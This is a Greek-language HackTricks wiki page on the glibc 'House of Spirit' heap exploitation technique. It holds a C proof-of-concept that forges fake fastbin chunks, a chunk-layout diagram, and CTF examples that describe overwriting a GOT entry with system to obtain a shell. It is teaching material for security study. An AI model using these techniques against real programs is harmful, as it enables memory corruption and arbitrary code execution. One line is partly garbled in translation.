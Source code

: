 # House of Spirit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Βασικές Πληροφορίες

### Κώδικας

<details>

<summary>House of Spirit</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### Στόχος

* Να είστε σε θέση να προσθέσετε σε tcache / fast bin μια διεύθυνση ώστε αργότερα να είναι δυνατή η κατανομή της

### Απαιτήσεις

* Αυτή η επίθεση απαιτεί από τον επιτιθέμενο να είναι σε θέση να δημιουργήσει μερικά ψεύτικα fast chunks που να υποδεικνύουν σωστά την τιμή μεγέθους τους και στη συνέχεια να είναι σε θέση να ελευθερώσει το πρώτο ψεύτικο chunk ώστε να μπει στο bin.

### Επίθεση

* Δημιουργήστε ψεύτικα chunks που παρακάμπτουν τους ελέγχους ασφαλείας: θα χρειαστείτε 2 ψεύτικα chunks που να υποδεικνύουν στις σωστές θέσεις τα σωστά μεγέθη
* Κά somehow manage να ελευθερώσετε το πρώτο ψεύτικο chunk ώστε να μπει στο fast ή tcache bin και στη συνέχεια να κατανεμηθεί για να αντικαταστήσει αυτή τη διεύθυνση

**Ο κώδικας από** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **είναι εξαιρετικός για να κατανοήσετε την επίθεση.** Αν και αυτό το σχήμα από τον κώδικα το συνοψίζει αρκετά καλά:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
Σημειώστε ότι είναι απαραίτητο να δημιουργηθεί το δεύτερο κομμάτι προκειμένου να παρακαμφθούν ορισμένοι έλεγχοι εγκυρότητας.
{% endhint %}

## Παραδείγματα

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Libc infoleak**: Μέσω μιας υπερχείλισης είναι δυνατόν να αλλάξει ένας δείκτης ώστε να δείχνει σε μια διεύθυνση GOT προκειμένου να διαρρεύσει μια διεύθυνση libc μέσω της ενέργειας ανάγνωσης του CTF
* **House of Spirit**: Εκμεταλλευόμενοι έναν μετρητή που μετρά τον αριθμό των "τουφεκιών", είναι δυνατόν να παραχθεί ένα ψεύτικο μέγεθος του πρώτου ψεύτικου κομματιού, στη συνέχεια εκμεταλλευόμενοι ένα "μήνυμα" είναι δυνατόν να παραποιηθεί το δεύτερο μέγεθος ενός κομματιού και τελικά εκμεταλλευόμενοι μια υπερχείλιση είναι δυνατόν να αλλάξει ένας δείκτης που πρόκειται να απελευθερωθεί, έτσι ώστε το πρώτο ψεύτικο κομμάτι να απελευθερωθεί. Στη συνέχεια, μπορούμε να το εκχωρήσουμε και μέσα σε αυτό θα υπάρχει η διεύθυνση όπου αποθηκεύεται το "μήνυμα". Στη συνέχεια, είναι δυνατόν να κάνουμε αυτό να δείχνει στην είσοδο `scanf` μέσα στον πίνακα GOT, έτσι ώστε να μπορούμε να το αντικαταστήσουμε με τη διεύθυνση του συστήματος.\
Την επόμενη φορά που θα κληθεί το `scanf`, μπορούμε να στείλουμε την είσοδο `"/bin/sh"` και να αποκτήσουμε ένα shell.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Glibc leak**: Μη αρχικοποιημένος buffer στο stack.
* **House of Spirit**: Μπορούμε να τροποποιήσουμε τον πρώτο δείκτη ενός παγκόσμιου πίνακα δεικτών heap. Με μια μόνο τροποποίηση byte, χρησιμοποιούμε `free` σε ένα ψεύτικο κομμάτι μέσα σε ένα έγκυρο κομμάτι, έτσι ώστε να αποκτήσουμε μια κατάσταση επικαλυπτόμενων κομματιών μετά την εκ νέου εκχώρηση. Με αυτό, μια απλή επίθεση δηλητηρίασης Tcache λειτουργεί για να αποκτήσουμε μια αυθαίρετη γραφή.

## Αναφορές

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
